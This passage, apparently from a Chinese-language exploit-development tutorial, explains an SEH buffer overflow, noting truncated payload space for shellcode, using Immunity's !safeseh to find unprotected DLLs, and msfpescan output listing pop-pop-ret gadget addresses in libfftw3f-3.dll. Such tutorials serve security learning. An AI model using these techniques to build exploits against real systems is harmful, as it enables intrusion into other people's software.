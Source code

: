 <img src="images/03/Aud-seh-03.png" width="480">

可以看到这是一个标准的 SEH 溢出。我们可以注意到在堆栈中我们的 user 输入了一个" pop pop ret" 离开了。有趣的事，我们发送的2000字节payload，当我们返回我们的buffer时，它看起来被截断了。我们有大约80字节的空间给shellcode（标记为蓝色）。使用immunity 调试器的!safeseh命令，从找到的某个返回地址可以定位未保护的dll’s 

<img src="images/03/Aud-seh-02.png" width="480">

拷贝这个dll，使用 msfpescan 查找一个 pop pop ret指令：
```
root@kali:~# msfpescan -p libfftw3f-3.dll 

[libfftw3f-3.dll]
0x637410a9 pop esi; pop ebp; retn 0x000c
0x63741383 pop edi; pop ebp; ret
0x6374144c pop edi; pop ebp; ret
0x637414d3 pop edi; pop ebp; ret

0x637f597b pop edi; pop ebp; ret
0x637f5bb6 pop edi; pop ebp; ret
```
